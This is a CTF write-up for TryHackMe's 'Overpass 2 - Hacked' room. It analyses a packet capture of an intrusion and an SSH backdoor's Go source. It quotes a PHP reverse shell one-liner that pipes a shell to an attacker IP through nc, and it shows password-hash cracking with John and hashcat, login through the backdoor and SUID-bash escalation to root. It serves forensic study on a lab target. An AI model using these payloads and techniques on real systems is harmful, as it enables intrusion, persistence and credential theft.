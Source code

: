 ```yaml
---
title: THM - Overpass 2 - Hacked
tags: [thm, forensic]
---
```


<div style="text-align:center;">
<img src="https://tryhackme-images.s3.amazonaws.com/room-icons/96141387d9d4a22658f8db0ada67d62d.png" alt="Challenge logo" style="height:150px;">
</div>

Overpass has been hacked! Can you analyse the attacker's actions and hack back in?

## Forensics - Analyse the PCAP

Overpass has been hacked! The SOC team (Paradox, congratulations on the promotion) noticed suspicious activity on a late night shift while looking at shibes, and managed to capture packets as the attack happened.

We have to download the PCAP file from the machine tasks and open it in Wireshark. Right click on the first line and "Follow > TCP Stream".

On the second stream we can see a POST request to `/development/upload.php` in which is passed a file named  `payload.php`. We can see the file content

```
<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>
```

That's obiously a PHP reverse shell. Looking at the payload we can see which IP address was used by the attacker: `192.168.170.145`.

In the same stream, we can see a sequential GET request to `/development/uploads/`. We can assume that this request executed the payload and gave the attacker the access to the machine.

In the TCP stream number 3 we can see which commands the attacker typed. The attacker gained access as `www-data` user and stabilized his shell with python3. He then proceeded to read the content of `.overpass` file and escalated his privileges as `james` using `whenevernoteartinstant` as password.

After a little bit of thinkering, the attacker proceeded to clone this Github repo within james' home directory: `https://github.com/NinjaJc01/ssh-backdoor`. He then generated an RSA key pair and executed the backdoor. This gave the attacker persistence inside the comromised machine.

We can see that the attacker, before executing the backdoor, looked at the content of `/etc/passwd` file in which are stored all users hashed passwords. We can try to crack them with John The Ripper. Copy and paste the following lines inside a text file.

```
$6$oRXQu43X$WaAj3Z/4sEPV1mJdHsyJkIZm1rjjnNxrY5c8GElJIjG7u36xSgMGwKA2woDIFudtyqY37YCyukiHJPhi4IU7H0
$6$B.EnuXiO$f/u00HosZIO3UQCEJplazoQtH8WJjSX/ooBjwmYfEOTcqCAlMjeFIgYWqR5Aj2vsfRyf6x1wXxKitcPUjcXlX/
$6$.SqHrp6z$B4rWPi0Hkj0gbQMFujz1KHVs9VrSFu7AU9CxWrZV7GzH05tYPL1xRzUJlFHbyp0K9TAeY1M6niFseB9VLBWSo0
$6$SWybS8o2$9diveQinxy8PJQnGQQWbTNKeb2AiSp.i8KznuAjYbqI3q04Rf5hjHPer3weiC.2MrOj2o1Sw/fd2cu0kC6dUP.
```

The machine's tasks tells us to use fasttrack wordlist to crack the passwords.

```
$ john --wordlist=./fasttrack.txt hashes

1qaz2wsx         (?)     
abcd123          (?)     
secret12         (?)
secuirty3        (?)     
```

JTR was able to crack all the hashes.

## Research - Analyse the code

We have to do some simple code analysis on the backdoor. Let's clone the repo on our machine.

```
$ git clone https://github.com/NinjaJc01/ssh-backdoor
```

Now we have to view the backdoor source code inside the `main.go` file. The backdoor default hash is declared at line 19

```go
var hash string = "bdd04d9bb7621687f5df9001f5098eb22bf19eac4c2c30b6f23efed4d24807277d0f8bfccb9e77659103d78c56e66d2d7d8391dfc885d0e9b68acd01fc2170e3"
```

Scrolling through the code we can see this function declaration

```go
func verifyPass(hash, salt, password string) bool {
        resultHash := hashPassword(password, salt)
        return resultHash == hash
}
```

The `hash` is passed as an argument toghether with the `salt` to the `hashPassword` function. This function puts them togheter to create the final hash. At line 108 we can see which default `salt` is used.

```go
func passwordHandler(_ ssh.Context, password string) bool {
        return verifyPass(hash, "1c362db832f3f864c8c2fe05f2002a05", password)
}
```

To see which hash did the attacker use, we have to return back on the PCAP file. At the end of the third stream, we can see it

```
6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed
```

Inside the `main.go` file, we are able to see the usage of `SHA-512`. We can try to crack the hash with hashcat. Just search for the SHA-512 password + salt option inside the ([Hashcat Wiki](https://hashcat.net/wiki/doku.php?id=example_hashes)) and paste them toghether inside a text file (separated by a semicolon)

```
$ hashcat -m 1710 hash /usr/share/wordlists/rockyou.txt

6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed:1c362db832f3f864c8c2fe05f2002a05:november16
```

The cracked password is `november16`. This password is the one used by the attacker to log back into the machine as `james`.

## Attack - Get back in!

We have to hack back into the machine. Let's try to log in with `james` user through the backdoor since we found his password in the step before.

```
$ ssh -p 2222 james@10.10.68.50 -oHostKeyAlgorithms=+ssh-rsa
```

We are in. Let's navigate to james' home and get the first flag.

```
thm{d119b4fa8c497ddb0525f7ad[redacted]}
```

We need to elevate our privileges to become an administrator. I started the enumeration finding all SUIDs binary in the machine.

```
$ find / -perm -u=s 2>/dev/null

/home/james/.suid_bash
```

That one stands out. After a little bit of investigations I found that is an ELF which spawn a bash shell as `james`. Let's go to GTFObins and look if we can escalate our privileges with it.

I was able to find that we can simply type `./bash -p` and become root.

```
$ ./.suid_bash -p

.suid_bash-4.4# whoami
root
```

Let's get the flag

```
thm{d53b2684f169360bb9606c33[redacted]}
```